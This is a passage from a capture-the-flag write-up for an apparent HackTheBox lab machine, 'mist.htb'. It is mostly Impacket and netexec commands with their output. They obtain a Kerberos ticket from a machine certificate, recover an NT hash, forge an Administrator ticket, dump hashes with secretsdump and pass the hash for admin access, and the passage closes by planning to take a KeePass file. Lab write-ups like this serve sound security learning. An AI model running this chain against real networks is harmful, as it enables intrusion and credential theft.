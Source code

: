 ```bash
proxychains gettgtpkinit.py -cert-pfx 'impacket/examples/IJWC1bV3.pfx' -pfx-pass "6UZDUfBImctdBS4oj9xj" "mist.htb/MS01$" "MS01.ccache" -dc-ip 192.168.100.100

export KRB5CCNAME=MS01.ccache

proxychains getnthash.py 'mist.htb/ms01$' -key 275374bded42c17bada4360cb94365b3a1520be774e10f8e889706710b7951e1
[*] Using TGT from cache
[*] Requesting ticket to self with PAC
[proxychains] Strict chain  ...  127.0.0.1:1081  ...  MIST.HTB:88  ...  OK
Recovered NT Hash
d0[...]26
```
Now we need to impersonate Administrator to DCSync because MS01$ can't :

```bash
proxychains -q ticketer.py -nthash d0[...]26 -domain-sid S-1-5-21-1045809509-3006658589-2426055941 -domain mist.htb -dc-ip 192.168.100.100 -spn HOST/MS01.mist.htb administrator
Impacket v0.10.1.dev1+20220912.224808.5fcd5e81 - Copyright 2022 SecureAuth Corporation

[*] Creating basic skeleton ticket and PAC Infos
[*] Customizing ticket for mist.htb/administrator
[*] 	PAC_LOGON_INFO
[*] 	PAC_CLIENT_INFO_TYPE
[*] 	EncTicketPart
[*] 	EncTGSRepPart
[*] Signing/Encrypting final ticket
[*] 	PAC_SERVER_CHECKSUM
[*] 	PAC_PRIVSVR_CHECKSUM
[*] 	EncTicketPart
[*] 	EncTGSRepPart
[*] Saving ticket in administrator.ccache

export KRB5CCNAME=administrator.ccache

proxychains secretsdump.py -k -no-pass MS01.mist.htb

Administrator:500:aad3b435b51404eeaad3b435b51404ee:71[...]97b:::

proxychains -q nxc smb 192.168.100.101 -u 'Administrator' -H '71[...]97b' --local-auth
SMB         192.168.100.101 445    MS01             [*] Windows Server 2022 Build 20348 x64 (name:MS01) (domain:MS01) (signing:False) (SMBv1:False)
SMB         192.168.100.101 445    MS01             [+] MS01\Administrator:71[...]97b (admin)
```
Nice !!! 

## Crack KeePass 

Ok now we can just evil-winrm as Administrator on MS01 and go to ```C:\Users\Sharon.Mullard\Documents```, get the keepass, get also ```C:\Users\Sharon.Mullard\Pictures\image_20022024.png```
